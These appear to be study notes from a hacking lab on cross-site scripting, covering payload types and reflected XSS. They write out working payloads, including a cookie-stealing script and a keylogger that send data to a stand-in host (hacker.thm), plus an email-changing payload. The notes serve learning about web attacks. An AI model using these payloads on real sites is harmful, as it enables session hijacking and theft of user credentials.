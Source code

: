 In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

**Examples**

- **Proof Of Concept:**
	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:
	
	`<script>alert('XSS');</script>`

- **Session Stealing:**
	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
	
	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

- **Key Logger:**
	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
	
	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- **Business Logic:**
	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
	
	`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS  
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

- **Example Scenario:**  
A website where if you enter incorrect input, an **error** message is displayed. The content of the **error** message gets taken from the **error** **parameter** in the query string and is built directly into the page source.
![[Pasted image 20240605235939.png]]

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.
![[Pasted image 20240606000022.png]]

**Flow:**
![[Pasted image 20240606000041.png]]

- **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
